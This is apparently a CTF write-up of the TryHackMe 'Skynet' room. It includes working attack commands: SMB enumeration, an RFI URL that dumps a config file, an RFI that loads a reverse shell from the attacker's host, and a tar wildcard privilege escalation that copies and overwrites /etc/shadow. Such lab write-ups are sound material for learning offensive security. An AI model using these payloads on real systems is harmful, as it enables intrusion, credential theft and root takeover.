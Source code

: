 #smb #remote-file-inclusion #rfi #tar-wildcard

https://tryhackme.com/r/room/skynet
SMB Enumeration [document](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)

---

Vulnerable squirrelmail on /squirrelmail. [Exploit here](https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html)

#### Nmap
![[Screenshot_2024-05-23_16-47-57.png]]

I used `smbmap` to enumerate samba share drives:
```shell
smbmap -H 10.10.73.82
```
![[Screenshot_2024-05-24_18-09-14.png]]

The user `anonymous`(no password) is on `READ ONLY` so I connected to it:
```shell
smbclient //10.10.73.82/anonymous
```

I downloaded 4 files from the smb server:
**`attention.txt`**:
```text
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this. 
-Miles Dyson
```

`log1.txt` had a terminator wordlist, probably a password list

`log2.txt` and `log3.txt` were empty

Then I decided to enumerate the port `80` with `gobuster`:
```shell
gobuster dir -u http://10.10.73.82 -w /usr/share/wordlists/dirbuster/[list.txt] -t 200 -x php,txt
```

![[Screenshot_2024-05-24_18-00-10.png]]

I used the credentials `milesdyson:cyborg007haloterminator` for the `/squirrelmail` login page

There is a mail telling a new smb password for `milesdyson` => )s{A&2Z=F^n_E.B\`:
```shell
smbclient -U "WORKGROUP\milesdyson" //10.10.73.82/milesdyson
```

I found a hidden directory for the port `80` in the file `important.txt` on miles' smb:
```text
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

I enumerated the `/45kra24zxs28v3yd` directory and I've found the `/administrator` directory which I've enumerated too:
![[Screenshot_2024-05-24_19-06-20.png]]

This use `Cuppa CMS` and I've found a `Remote File Inclusion` CVE [here](https://www.exploit-db.com/exploits/25971)

I used the following link to dump the `Configuration.php` file in `base 64`:
```text
http://10.10.73.82/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
```

And here is the `Configuration.php` file:
```php
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "password123";
		public $table_prefix = "cu_";
		public $administrator_template = "default";
		public $list_limit = 25;
		public $token = "OBqIPqlFWf3X";
		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
		public $upload_default_path = "media/uploadsFiles";
		public $maximum_file_size = "5242880";
		public $secure_login = 0;
		public $secure_login_value = "";
		public $secure_login_redirect = "";
	} 
```

Then I did setup a reverse shell through the RFI vulnerability:
```text
http://10.10.73.82/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.79.56:5050/shell.php
```

And here I am in

#### Tar wildcard privilege escalation

So, for getting root, I had to exploit a `tar wildcard` PE vector, here is the vulnerable script:
```shell
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

So I had to trick the wildcards by creating 2 files that will be executed as flag in the `/var/www/html` directory:
```shell
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh bash.sh'
```

So it will be executed like this:
```shell
tar cf /home/milesdyson/backups/backup.tgz --checkpoint=1 --checkpoint-action=exec=sh bash.sh [... and the rest of the legit files]
```

So I created the `bash.sh` file in 2 steps:
*Step 1*
```shell
#!/bin/bash
cp /etc/shadow /tmp/shadow
```
I modified the `/tmp/shadow` with a new root password:
```shell
openssl passwd -6 -salt 'salt' 'password'
```
*Step 2*
```shell
#!/bin/bash
cp /tmp/shadow /etc/shadow
```

Then `su root` or `shh root@10.10.73.82` and here I am root

